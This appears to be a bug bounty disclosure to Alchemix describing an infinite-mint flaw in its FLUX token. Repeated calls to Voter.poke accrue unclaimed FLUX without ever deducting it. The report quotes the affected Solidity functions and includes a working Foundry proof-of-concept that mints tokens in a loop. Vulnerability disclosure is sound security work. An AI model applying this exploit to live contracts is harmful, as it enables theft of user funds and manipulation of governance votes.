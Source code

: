 
# Infinite mint of FLUX using poke

Submitted on May 21st 2024 at 14:23:35 UTC by @konata for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31579

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
There is an infinite mint vulnerability for the FLUX token using the `poke` functionality of the `Voter` contract. 

## Vulnerability Details
In the `_vote` function of the Voter contract, it calls into `FLUX.accrueFlux`, which increases the user's unclaimed FLUX balance from the VotingEscrow balance. It later calls `FLUX.updateFlux` to decrease it, but only with the amount of `boost`, which can simply be 0:
```
    function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        _;
        IFluxToken(FLUX).accrueFlux(_tokenId);
        _;
        // Update flux balance of token if boost was used
        if (_boost > 0) {
            IFluxToken(FLUX).updateFlux(_tokenId, _boost);
        }
    }
```
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455

The function `FLUX.accrueFlux` increases the balance using `VotingEscrow.claimableFlux(tokenId)`, which is a view function and stays the same depending on the amount and lock duration of the token ID:
```
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188-L192

`VotingEscrow.claimableFlux` does not depend on the amount of unclaimed FLUX in FluxToken for the user, and so the value returned from `claimableFlux` remains the same.

One can therefore simply call `Voter.poke()` over and over again, as this calls `FluxToken.accrueFlux` each time and uses a boost of 0. The user's `unclaimedFlux` in `FluxToken` would grow with the entire balance each time.

The user can then call `FluxToken.claimFlux` to turn the unclaimed FLUX into real ERC20 tokens that can be traded.

## Impact Details
The impact is an infinite mint of FLUX. This is a critical impact to not only the governance process (since FLUX can be used to boost), but also to the market and TVL of FLUX.

The vulnerability can be exploited by anyone and in the time frame of the same transaction.

## References
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188-L192


## Proof of Concept

A simple PoC that shows the attack scenario by calling `poke` each time.

```
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import "./Token.sol";

import "src/FluxToken.sol";
import "src/Minter.sol";
import "src/Voter.sol";
import "src/VotingEscrow.sol";
import "src/factories/BribeFactory.sol";
import "src/factories/GaugeFactory.sol";
import "src/RewardsDistributor.sol";
import "src/RevenueHandler.sol";
import "src/RewardPoolManager.sol";

contract PoC is Test {

    Token alcx;
    Token bpt;
    FluxToken flux;
    VotingEscrow ve;
    Voter voter;
    Minter minter;
    BribeFactory bf;
    GaugeFactory gf;
    RewardPoolManager rpm;

    function setUp() public {
        _next_epoch();
        alcx = new Token("ALCX", "ALCX");
        bpt = new Token("BPT", "BPT");
        bf = new BribeFactory();
        gf = new GaugeFactory();
        flux = new FluxToken(address(this));
        ve = new VotingEscrow(address(bpt), address(alcx), address(flux), address(this));
        voter = new Voter(address(ve), address(gf), address(bf), address(flux), address(this));
        minter = new Minter(IMinter.InitializationParams({
            alcx: address(alcx),
            voter: address(voter),
            ve: address(ve),
            rewardsDistributor: address(this),
            revenueHandler: address(this),
            timeGauge: address(this),
            treasury: address(this),
            supply: 1793678e18,
            rewards: 12724e18,
            stepdown: 130e18
        }));
        rpm = new RewardPoolManager(address(this), address(ve), address(bpt), address(this), address(this));

        flux.setMinter(address(minter));
        flux.setVoter(address(voter));
        flux.setVeALCX(address(ve));

        ve.setVoter(address(voter));
        ve.setRewardPoolManager(address(rpm));

        voter.setMinter(address(minter));
    }

    function test_poc() public {
        bpt.approve(address(ve), type(uint).max);
        uint tokenId = ve.createLock(1 ether, 0, true);

        console.log(flux.balanceOf(address(this)));

        for (uint i; i < 10; i++) {
            voter.poke(tokenId);
        }

        flux.claimFlux(tokenId, flux.unclaimedFlux(tokenId));

        console.log(flux.balanceOf(address(this)));
    }
```